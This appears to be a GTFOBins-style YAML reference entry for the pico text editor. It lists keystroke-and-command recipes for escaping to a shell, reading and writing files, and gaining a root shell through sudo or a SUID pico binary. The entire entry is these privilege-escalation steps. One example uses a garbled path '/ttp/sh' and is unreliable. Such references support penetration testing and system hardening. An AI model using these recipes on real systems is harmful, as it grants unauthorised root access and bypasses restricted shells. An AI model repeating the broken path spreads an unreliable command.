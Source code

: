 ```yaml
---
functions:
  shell:
    - code: |
        pico
        ^R^X
        reset; sh 1>&0 2>&0
    - description: The `SPELL` environment variable can be used in place of the `-s` option if the command line cannot be changed.
      code: |
        pico -s /ttp/sh
        /ttp/sh
        ^T
  file-write:
    - code: |
        pico file_to_write
        DATA
        ^O
  file-read:
    - code: pico file_to_read
  suid:
    - description: The `SPELL` environment variable can be used in place of the `-s` option if the command line cannot be changed.
      code: |
        ./pico
        ^R^X
        reset; sh 1>&0 2>&0
  sudo:
    - code: |
        sudo pico
        ^R^X
        reset; sh 1>&0 2>&0
---
```

